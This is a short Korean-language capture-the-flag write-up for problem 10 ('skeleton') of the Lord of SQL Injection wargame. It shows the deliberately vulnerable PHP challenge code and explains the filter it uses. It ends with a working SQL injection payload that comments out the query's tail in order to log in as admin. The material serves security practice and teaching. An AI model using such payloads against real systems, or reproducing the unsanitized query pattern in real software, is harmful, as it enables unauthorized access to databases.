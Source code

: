 Lord of SQL Injection No.10 - skereton
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("skeleton");
  highlight_file(__FILE__);
?>
```
위 문제에서 알 수 있는 것
preg_match로 인해 . ()가 $_GET[pw]에 들어 있으면 No Hack ~_~이 뜨면서 문제풀이에 실패하게 된다.
DB에 전달된 id가 admin이면 문제가 풀리게 된다.

문제 풀이 법
5번째 줄에서 pw='{$_GET[pw]}' and 1=0"가 있는데 이 부분에서 pw에 어떤 값 pw='or 1=1을 입력하면 뒤에 and1=0이 실행되어서
실행 되지 않는다.
1) 주석처리
뒤에 and 1=0이 실행되지 않도록 주석처리를 해준다.
pw=' or id='admin'-- -
